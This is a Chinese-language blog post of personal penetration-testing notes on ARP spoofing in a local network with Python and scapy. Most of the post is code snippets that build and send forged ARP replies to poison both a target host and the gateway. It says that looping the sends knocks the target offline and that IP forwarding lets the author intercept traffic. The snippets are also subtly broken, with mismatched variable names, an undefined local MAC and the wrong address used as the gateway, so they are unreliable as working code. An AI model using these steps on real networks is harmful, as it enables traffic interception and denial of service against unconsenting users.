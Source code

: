 ```yaml
---
layout: post
title: "[python渗透学习]-局域网内的arp欺骗学习"
subtitle: 'arp欺骗'
author: "Hzy"
header-style: text
tags:
  - 渗透
---
```



### 1.首先得了解arp欺骗的原理，大概就是欺骗主机:我是网关，欺骗网关:我是原机主，充当中间人，达到截取的效果。

> 看看这篇文章就明白了：
* https://zhuanlan.zhihu.com/p/28818627


### 2.首先得获取网关的ip和mac地址，和本地的mac

>使用netifaces库，可以很快得到网关信息

```
import netifaces
from scapy.all import *
from scapy.layers.l2 import getmacbyip
gw = netifaces.gateways()
iface_name = gw.get(2)[0][1]
iface_ip = get_if_addr(iface_name)
gw_mac = getmacbyip(iface_ip)

```

### 3.想要欺骗的对象的ip和mac地址

```
from scapy.layers.l2 import getmacbyip
target_ips="192.168.0.100" # 假设的目标
tmac = getmacbyip(str(target_ip))
```

### 4.用scapy模拟包并发送

>欺骗目标机器，网关的ip映射为攻击者的mac

```
ptarget = Ether(src=local_mac, dst=t_mac) / ARP(hwsrc=local_mac, psrc=iface_ip, hwdst=t_mac, pdst=t_ip, op=2)
sendp(ptarget,inter=2,iface=iface_name)
```

> 欺骗网关，目标机器的ip映射为攻击者的mac

```
 pgateway = Ether(src=local_mac, dst=gw_mac) / ARP(hwsrc=local_mac, psrc=t_ip, hwdst=gw_mac, pdst=iface_ip, op=2)
 sendp(pgateway,inter=2,iface=iface_name)
```

> 写个循环大量发送，目标的主机就会发生断网的情况，这是因为没有开启ip转发。

* 网上有很多，看：https://www.jianshu.com/p/3d5ada946a31

开启ip转发就能截取到包了，像driftnet就可以获取到图片，但我还没有试过..


> 用scapy还可以做很多有趣的事情，接下来在慢慢研究。